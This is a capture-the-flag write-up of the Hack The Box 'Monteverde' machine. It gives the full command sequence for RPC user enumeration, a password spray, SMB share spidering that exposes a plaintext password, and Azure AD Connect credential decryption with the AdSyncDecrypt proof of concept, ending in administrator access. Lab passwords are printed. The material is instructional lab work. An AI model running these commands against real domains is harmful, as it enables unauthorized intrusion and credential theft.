










---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Monteverde

## Summary

[Monteverde](https://app.hackthebox.com/machines/Monteverde) presents as a <mark style="color:yellow;">medium-rated</mark> challenge, characterized by a relatively straightforward initial access point yet unique EoP[^1] tactic. Following comprehensive enumeration of RPC and executing a password spray attack, we successfully acquire valid domain credentials. A subsequent sweep of SMB yields another set of credentials, enabling us to solidify our foothold. The path to privilege escalation involves leveraging Azure AD[^2] Connect through a PoC[^3] and acquiring the `administrator` account credentials.

<table><thead><tr><th width="83" align="right">Step</th><th width="201">Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>RPC enumeration</td><td><a href="../../../services/services/smb-139-445.md#rpc">rpcclient</a></td><td>Usernames</td></tr><tr><td align="right">2</td><td>Password spray</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a></td><td>Credentials</td></tr><tr><td align="right">3</td><td>SMB enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a></td><td>Foothold</td></tr><tr><td align="right">4</td><td>Domain enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/netexec-cme">NXC</a>, <a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/bloodhound">BloodHound</a></td><td>Non-default group</td></tr><tr><td align="right">5</td><td>Research</td><td><a href="https://github.com/VbScrub/AdSyncDecrypt">PoC</a></td><td><a data-footnote-ref href="#user-content-fn-4">EoP</a></td></tr></tbody></table>

## Recon

### Port Scan

Let's start, as we always do, with a [port scan](../../../tools/tools/port-scanners/nmap.md#nmap-flow) (Figure 1).

```bash
nmap-scan.sh 10.10.10.172
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><figcaption><p>Figure 1: Nmap's output.</p></figcaption></figure>

Before moving forwards, we should add the hostname (`monteverde`), the domain (`megabank.local`), and the FQDN (`monteverde.megabank.local`) to our local DNS file.

```bash
grep monte /etc/hosts
10.10.10.172    monteverde megabank.local monteverde.megabank.local
```

### SMB Enumeration

Trying to get information from the SMB does not work, but we can retrieve a username list via RPC (Figure 2). We can copy paste this list into a file and then extract the usernames.

```bash
# enumerating the SMB server via NULL session
nxc smb monteverde -u '' -p '' --shares
# enumerating the SMB server via guest session
nxc smb monteverde -u 'guest' -p '' --shares
# enumerating the SMB server via anonymous session
nxc smb monteverde -u 'x7331' -p '' --shares
# enumerating rcp port
rpcclient -U '' 10.10.10.172 -N
rpcclient $> enumdomusers
# copy and paste the users to a file
nano dom_users
# extract usernames
cat dom_users | awk -F'[' '{print $2}' | awk -F']' '{print $1}' > usernames
```

<figure><figcaption><p>Figure 2: Retrieving domain users via a RPC NULL session.</p></figcaption></figure>

After obtaining a username list. the first thing on our [AD Checklist](../../../tools/tools/active-directory/ad-checklist.md) is to check for [ASREPRoasting](../../../tl-dr/tl-dr/active-directory/attacks/asreproasting.md). Unfortunately, no account seems to be vulnerable. Next, we can try a password-spray attack and by doing that we get a pair of credentials: `SABatchJobs:SABatchJobs` (Figure 3).


```bash
# performing an ASREPRoasting attack
nxc ldap monteverde.megabank.local -u usernames -p '' --asreproast asrep_users
# performing a password-spray attack
nxc ldap monteverde.megabank.local -u usernames -p usernames --continue-on-success | grep +
```


<figure><figcaption><p>Figure 3: Performing a password spray attack.</p></figcaption></figure>

## Foothold

### SMB Enumeration (2)

The `sabatchjobs` account has `READ` access to 2 non-default shares: `azure_uploads` and `users$` (Figure 4).

```bash
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --shares --
```

<figure><figcaption><p>Figure 4: Enumerating the SMB shares as <code>sabatchjobs</code>.</p></figcaption></figure>

By spidering both shares, we see that `azure_uploads` seems to be empty, and `users$` has only one interesting file under `mhope`'s directory: `azure.xml` (Figure 5).


```bash
# spidering the azure_uploads share
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --spider azure_uploads --regex . --depth 1
# spidering the users$ share
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --spider users\$ --regex . --depth 1
```


<figure><figcaption><p>Figure 5: Spidering the SMB shares.</p></figcaption></figure>

Downloading and inspecting the file locally reveals a plaintext password (Figure 6).


```bash
# downloading the file
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --share users\$ --get-file /mhope/azure.xml ./azure.xml
# inspecting the file
cat azure.xml
```


<figure><figcaption><p>Figure 6: Retrieving a plaintext password from the <code>azure.xml</code> file.</p></figcaption></figure>

We can safely assume that the password belongs to `mhope`, but we will also check for password reuse as well as if `mhope` has WinRM access. If it has, we will also read the `user.txt` flag 🚩 (Figure 7).&#x20;

```bash
# writing the password to a file
echo "4n0therD4y@n0th3r$" > mhope_pass
# checking for password reuse
nxc smb 10.10.10.172 -u usernames -p mhope_pass --continue-on-success
# checking for WinRM access
nxc winrm 10.10.10.172 -u mhope -p mhope_pass
# reading the user flag
nxc winrm 10.10.10.172 -u mhope -p mhope_pass -X 'gc c:\users\mhope\desktop\user.txt'
```

<figure><figcaption><p>Figure 7: Checking for password reuse, WinRM access, and reading the user flag.</p></figcaption></figure>

## EoP[^5]

### Domain Enumeration

Let's use our foothold to collect domain information with [NetExec](../../../tools/tools/active-directory/netexec-cme.md), and then upload it to and analyze them with [BloodHound](../../../tools/tools/active-directory/bloodhound.md). The only interesting information we can find there, is that `mhope` is member of the `Azure Admins` group (Figure 8).


```bash
nxc ldap 10.10.10.172 -u mhope -p mhope_pass -k --bloodhound -ns 10.10.10.172 -c Group,LocalADmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn
```


<figure><figcaption><p>Figure 8: The <code>Azure Admins</code> domain group.</p></figcaption></figure>

### Azure AD Connect

Based on [this](https://blog.xpnsec.com/azuread-connect-for-redteam/) post, it seems possible to exploit the Azure AD[^6] Connect service. This is the service responsible for syncing the local AD with Azure AD. In brief, the goal of this exploitation process is to access the configuration of the local database, grab the credentials for the account that handles this syncing process, and decrypt them.

Although it sounds scary, there is already a [PoC](https://github.com/VbScrub/AdSyncDecrypt) available. After downloading the [`AdDecrypt.zip`](https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0) file, we can follow the guidance on the PoC's repo and get the `administrator`'s credentials (Figure 9).


```bash
# connecting to the machine via WinRM
evil-winrm -i 10.10.10.172 -u mhope -p $(cat mhope_pass)
# uploading the required files
upload AdDecrypt.exe
upload mcrypt.dll
# changing to the specified directory
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"
# executing the binary
c:\users\mhope\documents\AdDecrypt.exe -FullSQL
```


<figure><figcaption><p>Figure 9: Executing the exploit and obtaining the <code>administrator</code>'s credentials.</p></figcaption></figure>

We can use the `administrator`'s credentials to read the `root.txt` flag 🚩  (Figure 10).


```bash
# writing the password to a file
echo "d0m@in4dminyeah!" > admin_pass
# reading the root flag
nxc smb 10.10.10.172 -u administrator -p admin_pass -x 'type c:\users\administrator\desktop\root.txt'
```


<figure><figcaption><p>Figure 10: Reading the root flag.</p></figcaption></figure>

[^1]: Escalation of Privileges

[^2]: Active Directory

[^3]: Proof of Concept

[^4]: Elevation of Privileges

[^5]: Elevation of Privileges

[^6]: Active Directory
